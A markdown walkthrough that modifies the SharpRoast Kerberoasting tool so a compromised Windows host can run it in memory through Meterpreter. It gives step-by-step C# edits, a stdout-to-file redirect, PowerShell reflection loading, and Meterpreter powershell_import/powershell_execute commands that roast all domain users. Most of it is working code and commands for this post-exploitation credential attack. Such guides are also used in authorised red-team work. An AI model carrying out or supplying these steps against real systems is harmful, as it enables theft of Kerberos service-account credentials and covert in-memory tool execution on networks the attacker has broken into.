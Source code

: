 # Running a .NET assembly in memory with Meterpreter
What you'll need:
    - Visual Studio Code Installed on a Windows VM
    - .NET 3.5 and/or .NET 4.0 features installed in Visual Studio
    - Some C# code to run, this walkthrough will use [SharpRoast](https://github.com/GhostPack/SharpRoast/tree/348ba15f0c1c0d5bf8c029776dbba6fe71718489)

## Building the Project
Many C# projects come with .sln files, open that with Visual Studio and it will
automatically set up the project. To follow along, download SharpRoast from Github and open it up
in Visual Studio on the Windows VM. Or if you're writing the code yourself, just load
up your project. Make sure the project builds correctly and runs as expected before
modifying.

## Modifying the Project
All that is required is to break some abstraction barriers and set the classes and functions
that we want to run in Meterpreter to public. For SharpRoast, this involves changing the following lines (7-12) from:
```
namespace SharpRoast
{
    class Program
    {
        static bool debug = false;
```

TO

```
namespace SharpRoast
{
    public class Program
    {
        static bool debug = false;
```

Additionally, let's add a function to allow us to run SharpRoast in memory with the same behavior as on the command line. This can go anywhere inside the Program class.


```
public static void Command(string command="all")
{
    string[] args = command.Split(null);
    Main(args);
}
```

If you are expecting to see stdout, we'll need to patch that to be redirected to a file on disk. I have not yet figured out how to see the stdout stream
in the Meterpreter session. Do the following (in the import section add):

```
using System.IO;
```

And modify the added function to redirect stdout to a file:
```
static void Main(string[] args)
 {
     FileStream fs = new FileStream("C:\\inmemorystdout.txt", FileMode.Create);
     StreamWriter sw = new StreamWriter(fs);
     TextWriter old_stdout = Console.Out;
     Console.SetOut(sw);
     if (args.Length == 0)
...
clip
...
	 Console.SetOut(old_stdout);
     sw.Close();
}
```

Now rebuild the SharpRoast project (or your own project) in its Release configuration. It can still be built as an .NET executable.


## Loading and Testing with Powershell
Before loading with Meterpreter, test locally. Open up a Powershell prompt and load the file with the following command.
```
PS C:\Users\vmtest> [Reflection.Assembly]::LoadFile("C:\full\path\to\the.exe")

GAC    Version        Location
---    -------        --------
False  v2.0.50727     C:\full\path\to\the.exe


PS C:\Users\vmtest>
```

Now, let's run a command.
```
PS C:\Users\vmtest> [SharpRoast.Program]::Command("/?")

  SharpRoast Usage:

        SharpRoast.exe all                                       -   Roast all users in current domain
        SharpRoast.exe all "domain.com\user" "password"          -   Roast all users in current domain using alternate creds
        SharpRoast.exe "blah/blah"                               -   Roast a specific specific SPN
        SharpRoast.exe "blah/blah" "domain.com\user" "password"  -   Roast a specific SPN using alternate creds
        SharpRoast.exe username                                  -   Roast a specific username
        SharpRoast.exe username "domain.com\user" "password"     -   Roast a specific username using alternate creds
        SharpRoast.exe "OU=blah,DC=testlab,DC=local"             -   Roast users from a specific OU
        SharpRoast.exe "SERVICE/host@domain.com"                 -   Roast a specific SPN in another (trusted) domain
        SharpRoast.exe "LDAP://DC=dev,DC=testlab,DC=local"       -   Roast all users in another (trusted) domain
PS C:\Users\vmtest>
```

Note the inheritance structure for the function, we modified `class Program` to make it public, and also added a public function `Command`.
If it works as expected, it's ready to use with Meterpreter.

## Loading with Meterpreter
First, copy your .NET executable to your Meterpreter server, and change the extension from `.exe` to `.dll`. If you're curious,
this is because Metasploit will refuse to load a file as a library if does not end with `.dll`.  Next get a Meterpreter session on a Windows box with 
the appropriate .NET version installed (run it as admin because the module is writing to C:/). Then execute the following commands.

```
msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_import SharpRoast_Walkthrough.dll
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute [SharpRoast.Program]::Command(\"all\")
[+] Command execution completed:
meterpreter > ls C:/
```